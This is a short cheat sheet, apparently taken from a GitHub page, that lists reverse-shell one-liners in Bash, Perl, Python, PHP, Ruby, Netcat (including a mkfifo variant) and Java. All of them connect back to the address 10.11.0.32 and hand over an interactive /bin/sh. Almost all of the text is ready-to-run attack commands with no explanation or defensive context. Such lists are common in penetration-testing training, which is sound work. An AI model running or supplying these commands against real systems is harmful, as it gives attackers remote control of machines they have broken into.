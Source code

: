### Bash 

> bash -i >& /dev/tcp/10.11.0.32/1234 0>&1

### Perl
> perl -e 'use Socket;$i="10.11.0.32";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.32",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP
> php -r '$sock=fsockopen("10.11.0.32",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby
> ruby -rsocket -e'f=TCPSocket.open("10.11.0.32",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat
> nc -e /bin/sh 10.11.0.32 1234

or if you have a different version installed:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.32 1234 >/tmp/f

### Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.32/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
